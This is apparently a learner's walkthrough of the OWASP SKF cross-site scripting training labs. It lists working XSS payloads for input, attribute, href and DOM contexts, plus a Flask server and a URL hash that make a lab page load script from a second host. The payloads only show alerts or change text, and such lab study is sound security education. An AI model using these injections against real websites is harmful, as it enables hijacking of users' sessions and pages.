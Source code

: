 # Simple XSS
## [link](https://skf.gitbook.io/asvs-write-ups/cross-site-scripting-xss/cross-site-scripting)

- ![[xss-skf1.png]]
- The application shows an input field box
- When we look at the source, we see that our input is inside a tag
- ![[xss-skf2.png]]
- we can add Optional code inject
```html
<img src=x onerror=alert(origin)>
foobar"><script>alert(123)</script>
```
- ![[xss-skf3.png]]
- ![[xss-skf4.png]]


# XSS-Attribute
-  The program takes an input and performs a task (change color).
- ![[xss-skf5.png]]
- ![[xss-skf6.png]]
- OK we how can inject?
- we should break and fix 
```html
blue;'><img src=x onerror=alert(2)>
blue ' onmouseover='alert("XSS-Attribute")'
```
- ![[xss-skf7.png]]
- ![[xss-skf8.png]]

# XSS herf
- The application invites you to fill a website in the input box, that will be used from the "visit my website!" link to redirect to it.
- ![[xss-skf9.png]]
- ![[xss-skf10.png]]
- The next step is to see if we could include JavaScript that can be executed in the `href` attribute.
- <span style="color:rgb(0, 176, 80)">href="javascript:JS PAYLOAD"</span>
```html 
javascript:alert('XSS')
javascript:console.log('XSS')
```
- and when click on  `visit my website` js  code run
- ![[xss-skf11.png]]
- ![[xss-skf12.png]]


# XSS DOM
- The application shows an input field box
- ![[xss-skf13.png]]
- when we insert `salar` what happening?
- running this code
```js
function submit() {
			value = $("#input").val();
			console.log(value);
			$('#dom').html(value);
		}
```
- this code give value from input and change tag that has an ID=''dom"
- payload
```html
salar"><img src=x onerror=alert(1)>
salar"><script>alert(1)</script>
```
- ![[xss-skf15.png]]


# XSS DOM 2
- The application shows no input field or anything else we can interact with. Let's inspect the source code.
- ![[xss-skf16.png]]
```js
function loadWelcomeMessage() {
        setTimeout(function () {
          endpoint = location.hash.slice(5);
          var script = document.createElement("script");
          if (endpoint) {
            script.src = endpoint + "/static/js/welcome.js";
          } else {
            script.src = "/static/js/welcome.js";
          }
          document.head.appendChild(script);
        }, 2000);
      }
```
- We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.
## Exploitation
We can start building our malicious server and server the application with our malicious js file.

```py
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```
Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```js
document.getElementsByClassName("panel-body")[0].innerText = "salam conyy ha";
```
Now we can serve our malicious js file to the application

```http
http://0.0.0.0:5000/#xxxxhttp://0.0.0.0:1337
```
- ![[xss-skf17.png]]
- 